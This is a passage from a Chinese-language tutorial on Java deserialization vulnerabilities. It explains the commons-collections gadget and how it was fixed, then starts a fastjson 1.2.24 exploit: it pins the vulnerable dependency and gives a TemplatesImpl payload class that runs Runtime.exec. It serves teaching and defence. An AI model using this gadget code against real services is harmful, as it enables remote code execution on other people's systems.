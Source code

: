 ```java
    }
}
```
先构造需要的Map对象，之后通过反射构造AnnotationInvocationHandler对象，对该对象进行序列化。之后反序列化的时候，就会执行之前构造的命令。
很多服务之间数据传输就是使用的序列化对象，如果对传输的序列化对象进行拦截抓包，伪造自定义的序列化对象，接收端在反序列化的时候就会执行代码中构造的命令。
出现该漏洞的有：WebLogic、WebSphere、JBoss、Jenkins等。
反序列化漏洞利用工具参考 https://github.com/frohoff/ysoserial 还有利用反序列化切入点。

##### commons-collections漏洞解决办法
更新版本超过3.2.1版本。
commons-collections新版本如何修复的呢，在`InvokerTransformer`的`writeObject、readObject`加入了检查不安全的序列化`FunctorUtils.checkUnsafeSerialization`，其实就是从System中读取`org.apache.commons.collections.enableUnsafeSerialization`判断是否为true，如果不是就报错，那么`InvokerTransformer`就无法进行序列化以及反序列化。

#### fastjson漏洞
在对对象进行json序列化时，除了使用Gson还有fastjson，不过fastjson爆出过序列化漏洞
添加Maven依赖
```XML
<dependency>
  <groupId>com.alibaba</groupId>
  <artifactId>fastjson</artifactId>
  <!--1.2.22-1.2.24-->
  <version>1.2.24</version>
</dependency>
```
先构造一个用于执行的类
```java
public class ExecRun extends AbstractTranslet {
    public ExecRun() {
        StackTraceElement[] stackTrace = Thread.currentThread().getStackTrace();
        System.out.println("调用栈~~~~~~");
        for (StackTraceElement stackTraceElement : stackTrace) {
            System.out.println(stackTraceElement);
        }
        System.out.println("调用栈~~~~~~");
        try {
            Runtime.getRuntime().exec("atom");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
编译该类得到class。
```java
public class Main {
    public static void main(String[] args) throws Exception{
        //编译后文件路径
        String execRunPath = "./target/classes/com/whh/netty/ExecRun.class";
        //读取文件字节码
        FileInputStream inputStream = new FileInputStream(execRunPath);
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream(1024);
        byte[]bytes = new byte[1024];
```